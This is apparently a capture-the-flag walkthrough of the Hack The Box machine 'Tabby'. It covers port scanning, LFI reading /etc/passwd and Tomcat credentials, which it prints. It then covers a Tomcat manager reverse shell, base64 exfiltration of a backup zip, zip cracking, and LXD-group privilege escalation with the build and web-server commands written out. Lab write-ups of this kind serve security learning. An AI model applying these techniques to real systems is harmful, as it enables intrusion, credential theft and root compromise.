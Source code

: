# Tabby (`10.10.10.IP`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `tabby.htb` to `10.10.10.194`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports tabby.htb
# Nmap 7.91 scan initiated Sun Dec 27 00:33:27 2020 as: nmap -A -v -p- -Pn -oN allports tabby.htb
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.051s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/27%OT=22%CT=1%CU=36804%PV=Y%DS=2%DC=T%G=Y%TM=5FE81D
OS:12%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)OPS(O1=
OS:M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7
OS:%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 24.951 days (since Wed Dec  2 01:45:10 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   73.47 ms 10.10.14.1
2   64.45 ms tabby.htb (10.10.10.194)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 27 00:35:14 2020 -- 1 IP address (1 host up) scanned in 106.96 seconds

```

### Enumerating Port 80

![](img/2020-12-27-00-34-27.png)

I see a `vhost`: `megahosting.htb`. I add that to my `/etc/hosts` file.

```
...
10.10.10.194 tabby.htb megahosting.htb
...
```

`sales` is also likely a valid username.

![](img/2020-12-27-00-37-06.png)

### Enumerating Port 8080

![](img/2020-12-28-00-10-38.png)

Tomcat 9 is running.

```bash
$ nikto -ask=no -h http://tabby.htb:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.194
+ Target Hostname:    tabby.htb
+ Target Port:        8080
+ Start Time:         2020-12-27 00:32:58 (GMT-5)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8091 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2020-12-27 00:40:18 (GMT-5) (440 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

This line sticks out to me: `+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.`

![](img/2020-12-27-22-46-32.png)

LFI in the website on port 80 lets me read `/etc/passwd`.

![](img/2020-12-28-21-08-13.png)

After some research, I find the default path of the `tomcat9` users file. I access it using the LFI vulnerability.

![](img/2020-12-28-21-43-49.png)

I find the credentials: `tomcat:$3cureP4s5w0rd123!` for an account with `admin-gui` and `manager-script` roles.

They allow access to the Tomcat Virtual Host Manager.

![](img/2020-12-29-02-03-39.png)

![](img/2020-12-29-02-03-49.png)




## Reverse Shell

I use a technique shown here: https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00

I generate a payload for Apache Tomcat.

![](img/2020-12-29-02-14-55.png)

I upload the payload.

![](img/2020-12-29-02-15-15.png)

Start a listener, and run the exploit.

![](img/2020-12-29-02-16-21.png)

![](img/2020-12-29-02-16-28.png)

## Upgrading Shell

![](img/2020-12-29-02-16-57.png)

## Privilege Escalation to `ash`

![](img/2020-12-29-04-56-46.png)

I copy the file over to my local machine with:

```bash
# Target
tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | base64
UEsDBAoAAAAAAIUDf0gAAAAAAAAAAAAAAAAUABwAdmFyL3d3dy9odG1sL2Fzc2V0cy9VVAkAAxpv
...

# Kali
$ echo "UEsDBAoAAAAAAIUDf0g..." | base64 -d > backup.zip
```

I use `fcrackzip` to recover the zip file password.

![](img/2020-12-29-05-00-07.png)

`admin@it` turns out to be `ash`'s user password.

![](img/2020-12-29-05-00-38.png)

## `ash` to `root`

`ash` is part of the `lxd` group, which means we can get root using this technique: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1

![](img/2020-12-29-05-16-06.png)

I prep the exploit on my Kali machine.

```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
# Clone repo
go get -d -v github.com/lxc/distrobuilder
# Make distrobuilder
cd $GOAPTH/src/github.com/lxc/distrobuilder
make
cd
# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $GOPATH/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

# Create a webserver
sudo python3 -m http.server 80
```

I download `lxd.tar.xz` and `rootfs.squashfs` on the target.

![](img/2020-12-29-05-18-34.png)

And run the rest of the exploit.

![](img/2020-12-29-05-19-17.png)

I go to `/mnt/root/`, where the `/root` directory is mounted and I see the flag.

![](img/2020-12-29-05-20-24.png)

I drop into a full shell by setting the `SUID` bit on `/usr/bin/bash`

![](img/2020-12-29-05-29-59.png)